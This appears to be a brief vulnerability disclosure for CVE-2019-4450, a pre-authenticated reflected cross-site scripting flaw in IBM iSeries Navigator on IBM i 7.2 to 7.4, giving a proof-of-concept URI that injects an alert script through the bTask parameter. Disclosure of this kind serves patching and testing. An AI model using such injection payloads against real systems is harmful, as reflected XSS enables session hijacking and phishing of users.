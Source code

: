 # Pre-authenticated Reflected XSS in IBM iSeries Navigator

Detailed Description: 
Product: IBM iSeries Navigator
Version: IBM i 7.2, 7.3, and 7.4

Pre-authenticated Reflected XSS vulnerability (CVE-2019-4450)

### URI:  
```
http://ibmiseries:2004/ibm/console/contentTabPanel.jsp?bTask=false%3Balert(%27Reflected+XSS!%27)%3B//
```
